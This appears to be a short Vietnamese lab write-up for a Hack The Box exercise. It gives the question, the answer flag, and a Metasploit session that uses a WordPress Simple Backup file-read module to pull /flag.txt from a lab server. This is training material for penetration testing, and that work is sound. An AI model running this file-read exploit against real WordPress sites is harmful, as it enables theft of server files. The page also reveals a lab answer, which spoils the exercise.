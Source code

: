 ![alt text](image-4.png)

---
## 15 
---
![alt text](image-5.png)

### Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start) ? `HTB{my_f1r57_h4ck}`

Dùng Metasploit như sau:
```
Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/http/wp_simple_backup_file_read
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >>
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RHOSTS 94.237.58.147
RHOSTS => 94.237.58.147
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RPORT 53239
RPORT => 53239
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set FI
set FILEPATH          set FINGERPRINTCHECK
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set FILEPATH /flag.txt
FILEPATH => /flag.txt
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

[+] File saved in: /root/.msf4/loot/20250115020934_default_94.237.58.147_simplebackup.tra_630420.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
